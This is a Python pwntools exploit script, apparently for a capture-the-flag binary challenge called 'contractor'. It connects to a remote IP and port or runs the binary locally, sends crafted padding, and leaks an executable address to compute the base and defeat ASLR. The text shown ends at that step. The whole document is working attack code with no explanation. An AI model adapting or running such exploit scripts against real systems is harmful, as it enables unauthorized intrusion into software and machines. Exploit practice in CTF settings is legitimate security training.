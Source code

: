     #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *
    from ctypes import cdll



    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./contractor_patched', checksec=False)
    libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc


    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            brva 0x000000000000170B
            brva 0x0000000000001997

            c
            ''')
            input()

    if args.remote:
        p = remote('94.237.63.32',30659)  
    else:
        p = process(exe.path) 



    #GDB()

    s(b'a'*16)

    sl(b'b'*256)

    sl(b'1')

    s(b'c'*16)

    p.recvuntil(b'[Specialty]: cccccccccccccccc')

    leak_exe = u64(p.recv(6).ljust(8,b'\0'))
    print('leak exe = ' + hex(leak_exe))
    exe.address = leak_exe - 0x1b50
    print('exe_base = ' + hex(exe.address))
